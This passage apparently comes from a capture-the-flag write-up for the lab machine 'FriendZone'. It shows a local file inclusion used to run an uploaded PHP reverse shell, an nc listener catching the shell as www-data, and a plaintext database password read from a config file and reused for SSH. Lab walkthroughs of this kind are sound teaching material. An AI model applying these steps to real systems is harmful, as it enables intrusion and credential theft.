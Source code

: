 
So we got an absolute path, a LFI vector AND a write permission. If we visit /etc/Development/test (there is test.php which only executes echo “Please subscribe”)

(echo)

We can indeed see that test.php is being executed.

Now, everything combined:

```
┌──(hosan㉿kali)-[~]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.14] from (UNKNOWN) [10.10.10.123] 57610
Linux FriendZone 4.15.0-36-generic #39-Ubuntu SMP Mon Sep 24 16:19:09 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 23:21:26 up  1:43,  0 users,  load average: 0.00, 0.00, 0.75
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

I got a revshell. So there was only three steps:

1. Modified rev.php and upload it
2. Opened port to listen incoming connection
3. Visited our rev.php with LFI vector : pagename=/etc/Development/rev


## 4. Privilege Escalation

Even if www-data already gives us the user flag, I found a credential of the user friend:
```
$ cd /var/www
$ ls
admin
friendzone
friendzoneportal
friendzoneportaladmin
html
mysql_data.conf
uploads
$ cat mysql_data.conf     
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ
```
And I could sue it for ssh connection.
